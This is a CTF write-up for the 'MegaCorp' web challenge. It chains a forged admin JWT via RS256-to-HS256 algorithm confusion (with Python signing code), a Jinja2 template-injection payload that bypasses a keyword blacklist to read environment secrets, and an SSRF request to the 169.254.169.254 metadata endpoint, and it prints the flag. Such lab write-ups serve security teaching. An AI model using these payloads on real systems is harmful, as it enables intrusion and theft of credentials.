

# MegaCorp - Web

**Category:** Web
**Points:** 497
**Author:** benzo
**Target:** http://chall.ehax.in:7801/

## Flag

`EH4X{14mk1nd4high}`

## Analysis

Flask/Werkzeug app (Python 3.11) with:
- JWT-based auth (RS256) with cookie `token`
- Login: `alice:password123`
- Public key exposed at `/pubkey`
- Bio preview form on `/profile`
- Locked features: `/fetch` (SSRF), `/admin/logs`, "Vault Access"

HTML comment on login page: *"did you check for sql injection? just kidding, there is none here"*

Profile page hint: *"HTML rendering is disabled for Tier 1 employees. Due to security policy SC-71a, advanced bio customization via context execution requires System Administrator approval."*

## Vulnerability Chain (4 steps)

### Step 1: JWT Algorithm Confusion (RS256 → HS256)

JWT payload: `{"username":"alice","role":"user"}`

The server uses RS256 but **also accepts HS256**, using the RSA public key (from `/pubkey`) as the HMAC secret. This is the classic algorithm confusion attack.

```python
pubkey = requests.get(f"{BASE_URL}/pubkey").content  # PEM format
header = {"alg": "HS256", "typ": "JWT"}
payload = {"username": "alice", "role": "admin"}
# Sign with HMAC-SHA256 using public key bytes as secret
sig = hmac.new(pubkey, msg, hashlib.sha256).digest()
```

Setting `role=admin` unlocks SSTI on `/profile` and access to `/fetch`.

### Step 2: SSTI (Server-Side Template Injection)

With `role=admin`, the bio is injected directly into a Jinja2 template via `render_template_string()`.

**Blacklist bypass:** Keywords `os`, `popen`, `__class__`, `__mro__`, `eval`, `exec` are blocked. Bypass `os` with string concatenation:

```
{{lipsum.__globals__['o'+'s'].environ.get('API_KEY')}}
```

→ Leaks `API_KEY=s3cr3t_fetch_k3y_for_adm1ns_only`

### Step 3: SSRF via `/fetch` to IMDS

The `/fetch` endpoint blocks `127.0.0.1` and `localhost` but allows `169.254.169.254` (AWS-style IMDS).


```
POST /fetch
url=http://169.254.169.254/latest/meta-data/flag
api_key=s3cr3t_fetch_k3y_for_adm1ns_only
```

→ Returns `EH4X{14mk1nd4high}`

## Key Takeaways

- **JWT Algorithm Confusion** is a classic web vuln — servers should NEVER accept HS256 when they issue RS256
- **SSTI blacklists** are easily bypassed with string concatenation (`'o'+'s'`)
- **SSRF protection** blocking only `localhost`/`127.0.0.1` is insufficient — cloud metadata IPs like `169.254.169.254` must also be blocked
- Always check `/pubkey`, `/.well-known/`, and similar key-exposure endpoints
